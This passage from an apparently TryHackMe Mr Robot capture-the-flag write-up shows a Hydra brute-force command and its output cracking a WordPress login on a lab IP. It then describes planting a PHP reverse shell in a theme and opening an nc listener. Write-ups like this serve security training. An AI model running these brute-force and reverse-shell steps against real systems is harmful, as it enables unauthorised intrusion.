  ```terminal
 $ hydra -l elliot -P sorted.dic 10.10.117.187 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username"         130 ⨯
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-21 10:10:54
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:1/p:11452), ~716 tries per task
[DATA] attacking http-post-form://10.10.117.187:80/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username
[STATUS] 1174.00 tries/min, 1174 tries in 00:01h, 10278 to do in 00:09h, 16 active
[STATUS] 1169.67 tries/min, 3509 tries in 00:03h, 7943 to do in 00:07h, 16 active
[80][http-post-form] host: 10.10.117.187   login: elliot   password: 'redacted'
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-21 10:15:55
```
 Great, we got the password, now let's login using the credentials we found.

 ![elliot.png](/assets/img/tryhackme/mrrobotctf/elliot.png)

# **Foothold**

 Now that we got access to wordpress account, i googled 'wordpress reverse shell' and found this useful [article](https://www.hackingarticles.in/wordpress-reverse-shell/), it explains how we can get a reverse shell by injecting a malicious php code as a wordpress theme, for that i used pentestmonkey php reverse shell that you can find [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), you have to change the ip in the code to your machine's ip, and then set up a listener on your machine using the following command: `nc -nlvp 1234`.
